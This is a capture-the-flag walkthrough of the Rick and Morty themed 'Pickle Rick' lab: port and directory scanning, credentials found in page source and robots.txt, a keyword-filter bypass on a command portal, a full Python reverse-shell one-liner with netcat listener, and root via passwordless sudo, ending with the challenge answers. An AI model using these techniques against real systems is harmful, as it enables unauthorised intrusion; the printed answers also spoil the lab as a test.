 # Pickle Rick

## Description

A Rick and Morty CTF. Help turn Rick back into a human!

This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

## Initial Scan

Let's start with an Nmap scan. The scan reveals two open ports:
* 22 ssh
* 80 http

~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4e:90:bd:02:7c:19:04:9b:88:47:00:0b:48:fc:21:d3 (RSA)
|   256 48:d8:20:88:96:e6:ca:70:f8:5a:91:91:75:92:2d:d4 (ECDSA)
|_  256 57:a3:e6:cf:57:59:86:95:7d:8c:d7:d9:21:38:b0:b5 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## Getting Creds

Let's head to the web service, since we have no creds for the ssh service. The first thing I did, was taking a look at the source code and found a username in a comment in the bottom of the page:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Pickle_Rick]
└─$ curl -s "http://$IP/" | tail   
  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->

</body>
</html>
~~~

Username: `R1ckRul3s`

Next I took a look at `/robots.txt` and found a string which I guess is a password:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Pickle_Rick]
└─$ curl -s "http://$IP/robots.txt"
Wubbalubbadubdub
~~~

Password: `Wubbalubbadubdub`

## Getting a Shell

I used the creds I found (`R1ckRul3s:Wubbalubbadubdub`) to connect to the machine via ssh but they weren't valid. I guess there might be a login page or something. I ran `gobuster` on the webpage to find it. I also used `-x` switch to look for files with the specified extentions:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Pickle_Rick]
└─$ gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://$IP/ -x php,zip,html,txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.249.162/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,txt,php,zip
[+] Timeout:                 10s
===============================================================
2021/11/05 04:40:36 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 315] [--> http://10.10.249.162/assets/]
/denied.php           (Status: 302) [Size: 0] [--> /login.php]                    
/login.php            (Status: 200) [Size: 882]                                   
/portal.php           (Status: 302) [Size: 0] [--> /login.php]                    
/robots.txt           (Status: 200) [Size: 17]                                    
/server-status        (Status: 403) [Size: 301]
~~~

Great! We found the login page. If you navigate to `portal.php` or `denied.php`, they both redirect you to `login.php`. It means we need to be logged in to be able to use those. Let's test our creds in `/login.php`.

Nice! We logged in using the creds. Now we face this page:

<p align="center"><img src="./files/portal.png"></p>

We can execute commands on the machine, but not everything. For example I tried to read the files using `cat`, but it is filtered. I tried some simple things and found out how the filter works. It checks if we are using some words, so if you put `\` in middle of a command, it will bypass the filter.

Example:

<p align="center"><img src="./files/bypass.png"></p>

### Reverse Shell

Now that we can execute commands, we can execute a reverse shell. I used this python reverse shell:

~~~
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~

Start a listener and then execute this python3 command.

Listener:
~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Pickle_Rick]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
~~~

Now add your IP to the reverse shell and then execute it. Btw, there is no filter for python3, so no need to use that method.

Now we have a shell. The first thing I did, was spawning a TTY shell using a python one-liner:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Pickle_Rick]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.1.128] from (UNKNOWN) [10.10.249.162] 49654
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ip-10-10-249-162:/var/www/html$
~~~

## Ingredients

### What is the first ingredient Rick needs?

If you list the files in the active directory, you'll see a file named `Sup3rS3cretPickl3Ingred.txt` which contains our first ingredient:

~~~
www-data@ip-10-10-249-162:/var/www/html$ ls
Sup3rS3cretPickl3Ingred.txt  clue.txt	 index.html  portal.php
assets			     denied.php  login.php   robots.txt
www-data@ip-10-10-249-162:/var/www/html$ cat Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
~~~

First ingredient: `mr. meeseek hair`

### Whats the second ingredient Rick needs?

Now let's head to `/home` to see the users on the machine. There is a user named `rick` and you can find the second ingredient in his home directory:

~~~
www-data@ip-10-10-249-162:/var/www/html$ cd /home
www-data@ip-10-10-249-162:/home$ ls
rick  ubuntu
www-data@ip-10-10-249-162:/home$ cd rick
www-data@ip-10-10-249-162:/home/rick$ ls -la
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
www-data@ip-10-10-249-162:/home/rick$ cat second\ ingredients
1 jerry tear
~~~

Second ingredient: `1 jerry tear`

### Whats the final ingredient Rick needs?

Now we need to gain root access in order to find the last ingredient. I ran `sudo -l` to check my sudo permissions:

~~~
www-data@ip-10-10-249-162:/home/rick$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-249-162.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-249-162.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
~~~

As you can see, we can run all the commands with sudo and no password. we can simply run `sudo su` to go root:

~~~
www-data@ip-10-10-249-162:/home/rick$ sudo su
root@ip-10-10-249-162:/home/rick# id
uid=0(root) gid=0(root) groups=0(root)
~~~

Great! We are root now. Let's head to `/root` to read the final ingredient:

~~~
root@ip-10-10-249-162:/home/rick# cd /root
root@ip-10-10-249-162:~# ls
3rd.txt  snap
root@ip-10-10-249-162:~# cat 3rd.txt
3rd ingredients: fleeb juice
~~~

Final ingredient: `fleeb juice`

# D0N3! ; )

Thanks to the creator.

Hope you had fun and learned something.

Have a g00d one! : )